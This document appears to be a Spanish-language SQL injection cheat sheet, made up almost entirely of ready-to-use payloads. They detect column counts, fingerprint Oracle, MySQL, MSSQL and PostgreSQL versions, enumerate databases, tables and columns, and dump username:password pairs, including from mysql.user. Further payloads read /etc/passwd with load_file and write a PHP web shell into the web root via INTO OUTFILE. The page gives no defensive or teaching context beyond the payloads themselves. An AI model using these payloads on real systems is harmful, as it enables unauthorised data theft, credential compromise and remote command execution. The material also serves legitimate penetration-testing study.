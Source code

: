 ## Número Columnas
```sql
' ORDER BY 1-- -
' ORDER BY 100-- -
' ORDER BY 1,2,3,4,5-- -
' ORDER BY 1,2,3,4,5#

' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT "Test",2,NULL#
' UNION SELECT @@version,NULL,NULL#
```
### ORACLE
```sql
' UNION SELECT 'NULL','NULL' FROM+dual-- -
```
## Versiones
### ORACLE
```sql
' UNION SELECT BANNER, NULL FROM v$version--
' SELECT version FROM v$instance--
```
### MySQL and Microsoft
```sql
' UNION SELECT @@version, NULL-- -
```
### PostgreSQL
```sql
' UNION SELECT version(), NULL-- -
```
## Nombre de la BD actual
```sql
' UNION SELECT NULL,database(),NULL-- -
' UNION SELECT NULL,database(),NULL#
```
## Usuario
```sql
' UNION SELECT NULL,user(),NULL-- -
' UNION SELECT NULL,user(),NULL#
```
## Enumerar las DB
```sql
UNION SELECT NULL,schema_name,NULL from information_schema.schemata-- -
UNION SELECT NULL,schema_name,NULL from information_schema.schemata limit 1,1-- -
UNION SELECT NULL,schema_name,NULL from information_schema.schemata limit 2,1-- -
UNION SELECT NULL,schema_name,NULL from information_schema.schemata#
UNION SELECT NULL,schema_name,NULL from information_schema.schemata limit 1,1#
```
## Enumerar las Tablas
```sql
UNION SELECT NULL,table_name,NULL from information_schema.tables where table_schema="Colegio"-- -
UNION SELECT NULL,table_name,NULL from information_schema.tables where table_schema="Colegio"#
```
## Enumerar las Columnas
```sql
UNION SELECT NULL,column_name,NULL from information_schema.columns where table_schema="Colegio" and table_name="Users"-- -
UNION SELECT NULL,column_name,NULL from information_schema.columns where table_schema="Colegio" and table_name="Users" limit 1,1-- -
UNION SELECT NULL,column_name,NULL from information_schema.columns where table_schema="Colegio" and table_name="Users"#
UNION SELECT NULL,column_name,NULL from information_schema.columns where table_schema="Colegio" and table_name="Users" limit 2,1#
```
## Data
```sql
UNION SELECT NULL,username,NULL from users-- -
UNION SELECT NULL,password,NULL from users#
UNION SELECT NULL,concat(Username,0x3a,Password),NULL from Colegio.Users-- -
UNION SELECT NULL,concat(Username,0x3a,Password),NULL from Colegio.Users#
UNION SELECT 1,concat(User,0x3a,Password),3,4 from mysql.user-- -
```
## Leyendo Archivos
```sql
UNION SELECT NULL,load_file('/etc/passwd'),NULL-- -
UNION SELECT NULL,load_file('/etc/passwd'),NULL#
```
## Escribiendo Archivos
```sql
' union select ("<?php system($_GET['cmd']) ?>") into outfile "C:/xampp/htdocs/shell.php"-- -
' union select 1,("<?php system($_GET['cmd']) ?>"),3,4 into outfile "/var/www/html/SQL/shell.php"-- -
```
